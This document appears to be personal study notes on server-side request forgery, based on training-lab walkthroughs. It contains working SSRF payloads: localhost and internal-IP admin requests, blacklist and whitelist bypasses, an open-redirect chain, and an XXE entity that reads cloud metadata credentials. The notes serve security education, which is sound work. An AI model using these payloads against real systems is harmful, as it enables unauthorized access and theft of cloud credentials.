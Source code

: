 #Server-side request forgery (SSRF)

- A vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing
- In typical SSRF examples, the attacker might cause the server to make a connection back to itself, or to other web-based services within the organization's infrastructure, or to external third-party systems


###Impact of SSRF attacks
- A successful SSRF attack can often result in unauthorized actions or access to data within the organizatino, either in the vulnerable application itself or on other back-end systems that the application can communicate ith.
- In some situations, SSRF can allow an attacker to perform arbitrary command execution
- An SSRF exploit that causes connections to external third-party systems might result in malicious onward attacks that appear to originate from the organization hosting the vulnerable application, leading to potential legal liabilities and reputational damage. 

###Common SSRF attacks
- SSRF attacks often exploit trust relationships to escalate an attack from the vulnerable application and perform unauthorized actions

###SSRF attacks against the server itself
- In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This will typically involve supplying a URL with a hostname like 127.0.0.1 (a reserved IP address that points to the loopback adapter) or localhost (a commonly used name for the same adapter). 


For example, consider a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```
This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin 
```

-  Here, the server will fetch the contents of the /admin URL and return it to the user.

-Now of course, the attacker could just visit the /admin URL directly. 
- But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the /admin URL comes from the local machine itself, the normal access controls are bypassed. 
- The application grants full access to the administrative functionality, because the request appears to originate from a trusted location. 


*lab walkthrough*

```
Browse to /admin and observe that you can't directly access the admin page.
Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
Change the URL in the stockApi parameter to http://localhost/admin. This should display the administration interface.
Read the HTML to identify the URL to delete the target user, which is: http://localhost/admin/delete?username=carlos
Submit this URL in the stockApi parameter, to deliver the SSRF attack.
```



###SSRF attacks against other back-end systems

- Another type of trust relationship that often arises with server-side request forgery is where the application server is able to interact with other back-end systems that are not directly reachable by users. 

*lab walkthrough*

```
Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Intruder.
Click "Clear §", change the stockApi parameter to http://192.168.0.1:8080/admin then highlight the final octet of the IP address (the number 1), click "Add §".
Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
Click "Start attack".
Click on the "Status" column to sort it by status code ascending. You should see a single entry with a status of 200, showing an admin interface.
Click on this request, send it to Burp Repeater, and change the path in the stockApi to: /admin/delete?username=carlos


```

###Circumventing common SSRF defenses
- It is common to see applications containing SSRF behaviour together with defenses aimed at preventing malicious exploitation.

#SSRF with blacklist-based input filters
- Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques: 

	1. Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
	2. Registering your own domain name that resolves to 127.0.0.1. You can use ```spoofed.burpcollaborator.net``` for this purpose.
	3. Obfuscating blocked strings using URL encoding or case variation.

```http://2130706433/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos```

#SSRF with whitelist-based input filters
- Some applications only allow input that matches, begins with, or contains, a whitelist of permitted values. In this situation, you can sometimes circumvent the filter by exploiting inconsistencies in URL parsing.
- The URL specification contains a number of features that are liable to be overlooked when implementing ad hoc parsing and validating of URLS
	1. You can embed credentials in a URL before the hostname, using the @character. For example ``` https://expected-host@evil-host. ```
	2. You can use the # character to indiacte a URL fragment. For example ```https://evil-host#expected-host. ```
	3. You can leverage the DNS naming hierachy to place required input into a fully-qualified DNS name that you can control. For example ``` https://expected-host.evil-host. ```
	4. You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter hadnles URL-encoded characters differently than the code that performs the back-end HTTP request
	5. You can use the combinations of these techniques together


*lab walkthrough*
```
Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the request is blocked.
Bypass the block by changing the URL to: http://127.1/
Change the URL to http://127.1/admin and observe that the URL is blocked again.
Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.

```

#Bypassing SSRF filters via open redirection

- filters can be bypassed by exploiting an open redirection vulnerability
- the folowing application contains an open redirection vulnerability in which the following URL:
``` /product/nextProduct?currentProductId=6&path=http://evil-user.net``` returns a redirection to ```http://evil-user.net  ```
- You can leverage open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:


```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin 

```

*lab walkthrough*

```
Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
Try tampering with the stockApi parameter and observe that it isn't possible to make the server issue the request directly to a different host.
Click "next product" and observe that the path parameter is placed into the Location header of a redirection response, resulting in an open redirection.
Create a URL that exploits the open redirection vulnerability, and redirects to the admin interface, and feed this into the stockApi parameter on the stock checker: /product/nextProduct?path=http://192.168.0.12:8080/admin
The stock checker should follow the redirection and show you the admin page. You can then amend the path to delete the target user: /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos

```
###Blind SSRF Vulnerabilities
- Arise when an application can be induced to issue a back-end HTTP request to a supplied URL, but the response from the back-end request is not returned in the application's front-end response
- Generally harder to exploit but can sometimes lead to full Remote code execution on the server or other back-end components

#Finding hidden attack surface for SSRF vulnerabilites
- SSRF vulns are relatively easy to spot, since the application;s normal traffic involves request paramters containing full URLs. Other 

#URLs within data formats
- SOme applications transmit data in formats whose specification allows the inclusion of URLs that might get requested by the data parser for the format. eg the XML data format. When an app accepts data in XML format and parses itm it might be vulnerable to XXE injection, and in turn be vulnerable to SSRF via XXE

#Exploiting XXE to perform SSRF attacks

*lab walkthrough*

```
Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

Insert the following external entity definition in between the XML declaration and the stockCheck element:

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>

Then replace the productId number with a reference to the external entity: &xxe;

The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name. Iteratively update the URL in the DTD to explore the API until you reach /latest/meta-data/iam/security-credentials/admin. This should return JSON containing the SecretAccessKey.
```